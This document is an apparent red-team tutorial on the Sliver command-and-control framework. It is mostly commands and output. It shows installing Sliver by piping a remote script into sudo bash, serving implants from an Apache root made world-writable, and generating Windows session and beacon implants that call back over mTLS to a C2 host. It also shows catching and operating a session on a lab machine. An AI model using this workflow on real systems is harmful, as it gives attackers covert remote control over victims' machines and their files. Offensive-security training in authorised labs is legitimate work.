 # Sliver

### Installation

```
apt-get update -y 
apt-get install build-essential mingw-w64 binutils-mingw-w64 g++-mingw-w64
mkdir sliver 
cd sliver
curl https://sliver.sh/install|sudo bash
```

* Assuming `/usr/local/bin/` is in your path, your sliver server should be available in the shell as `sliver-server` and the client as `sliver`.

### Prepare a delivery method <a href="#prepare-a-delivery-method" id="prepare-a-delivery-method"></a>

On your C2 server, run `systemctl start apache2` to start a web server. You can now copy the implants you generate into the folder `/var/www/html` and Apache will serve them. To allow any system user to put a payload their, you can run `chmod -R 777 /var/www/html`.

### Generating the implant <a href="#generating-the-implant" id="generating-the-implant"></a>

Implant generation happens on the C2 server with the `generate` command. Connect to it and run `help generate` to read the extensive help page and learn about all the flags. Here is a selection of the most important flags for now:

* `--mtls 192.168.122.111`: Specifies that the implant should connect to the Sliver server using a mutually authenticated TLS connection. Other options would be `--wg` for WireGuard, `--http` for HTTP(S) connections or `--dns` for DNS-based C2.
* `--os windows`: specifies that we want to run the implant on Windows (which is the default, so we could omit this one). MacOS and Linux are also supported.
* `--arch amd64`" specifies that we want a 64-bit implant (also the default, could be omitted). Use `--arch 386` for a 32-bit one.
* `--format exe`: specifies that we want an executable file (again the default). Other options are `--format shared` for dynamic libraries, `--format service` for a Windows service binary (can be used with the `psexec` command) and `shellcode` (only windows).
* `--save /var/www/html/`: specifies the directory to save the binary to. I like to use the Apache web root.

```
sliver > generate --mtls 192.168.122.111 --os windows --arch amd64 --format exe --save /var/www/html
```

### Fix Permissions&#x20;

The file `/var/www/html/MEDICAL_CHANGE.exe` will not be owned by the Apache system user and has very restrictive file system permissions. To make it accessible for Apache, run `sudo chown www-data:www-data /var/www/html/MEDICAL_CHANGE.exe`.

### Start Listener



Now start the mTLS listener on the C2 server using the `mtls` command. By default, it starts the listener on port 8888. You can view your listeners with the `jobs` command:

```
sliver > mtls

[*] Starting mTLS listener ...
sliver > 
[*] Successfully started job #1

sliver > jobs

 ID   Name   Protocol   Port 
==== ====== ========== ======
 1    mtls   tcp        8888
```

### Transfer Binary to Target&#x20;

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

### Execute The Binary

* If all is successful you will see a new session opened

```
[*] Session 971c5a23 MEDICAL_CHANGE - 192.168.122.160:50051 (DESKTOP-IPQVF9T) - windows/amd64 - Fri, 01 Jul 2022 22:36:48 CEST
```

### Using a session <a href="#using-a-session" id="using-a-session"></a>

You can use your session with the `use` command. Just type it, hit enter, and an interactive prompt will appear that allows to select a session. Hit enter again and your prompt changes to the implant name, which was `MEDICAL_CHANGE` in my case. The session is now active and ready to accept your commands. With `info`, you can get more information about the implant:

```
sliver > use

? Select a session or beacon: SESSION  971c5a23  MEDICAL_CHANGE  192.168.122.160:50051  DESKTOP-IPQVF9T  DESKTOP-IPQVF9T\tester  windows/amd64
[*] Active session MEDICAL_CHANGE (971c5a23-73e0-4418-b9c2-266484546e0d)

sliver (MEDICAL_CHANGE) > info

        Session ID: 971c5a23-73e0-4418-b9c2-266484546e0d
              Name: MEDICAL_CHANGE
          Hostname: DESKTOP-IPQVF9T
              UUID: d512a12c-6b6d-4f19-814e-1f60088e9563
          Username: DESKTOP-IPQVF9T\tester
               UID: S-1-5-21-2966923018-1740081829-2498838087-1001
               GID: S-1-5-21-2966923018-1740081829-2498838087-513
               PID: 7244
                OS: windows
           Version: 10 build 19044 x86_64
              Arch: amd64
         Active C2: mtls://192.168.122.111:8888
    Remote Address: 192.168.122.160:50051
         Proxy URL: 
Reconnect Interval: 1m0s
```

Sliver implants supports several commands. You can get a full list with `help`. Features include file system exploration, file up- and downloads, port forwarding, taking screenshots and much more.

### Kill Session

```
sessions 
sessions -k session_id
```

```
sliver > sessions

 ID         Transport   Remote Address          Hostname          Username   Operating System   Health  
========== =========== ======================= ================= ========== ================== =========
 971c5a23   mtls        192.168.122.160:50051   DESKTOP-IPQVF9T   tester     windows/amd64      [ALIVE] 

sliver > sessions -k 971c5a23


[!] Lost session 971c5a23 MEDICAL_CHANGE - 192.168.122.160:50051 (DESKTOP-IPQVF9T) - windows/amd64 - Fri, 01 Jul 2022 22:52:53 CEST
```

### Kill Jobs&#x20;

* To kill your listener&#x20;

```
[server] sliver > jobs

 ID   Name   Protocol   Port 
==== ====== ========== ======
 1    mtls   tcp        8888 

[server] sliver > jobs -k 1

[*] Killing job #1 ...
[*] Successfully killed job #1
[!] Job #1 stopped (tcp/mtls)

```

### Generating Beaconing implant <a href="#generating-the-implant-1" id="generating-the-implant-1"></a>

Generating a beacon implant is very similar to session implant generation. You use the `generate beacon` command. Learn all about the flags with `help generate beacon`. Aside from all the flags discussed above, relevant beacon flags are:

* `--seconds 5`: specify that the beacon should contact the C2 server every 5 seconds. You could alternatively use `--minutes`, `--hours` or `--days`.
* `--jitter 3`: specify that an additional random delay of up to 3 seconds should be added to the 5 seconds interval.

This is how I generated the beacon:

```
sliver > generate beacon --mtls 192.168.122.111 --os windows --arch amd64 --format exe --save /var/www/html --seconds 5 --jitter 3

[*] Generating new windows/amd64 beacon implant binary (5s)
[*] Symbol obfuscation is enabled
[*] Build completed in 00:00:18
[*] Implant saved to /var/www/html/STALE_PNEUMONIA.exe
```
